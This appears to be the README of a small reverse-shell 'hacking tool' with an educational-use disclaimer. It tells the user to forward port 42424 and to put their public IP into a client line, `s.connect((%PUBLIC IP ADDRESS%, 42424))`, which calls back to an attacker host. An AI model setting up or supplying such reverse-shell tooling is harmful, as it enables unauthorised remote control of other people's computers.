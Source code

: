 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## How to use
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.

## Client
make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`

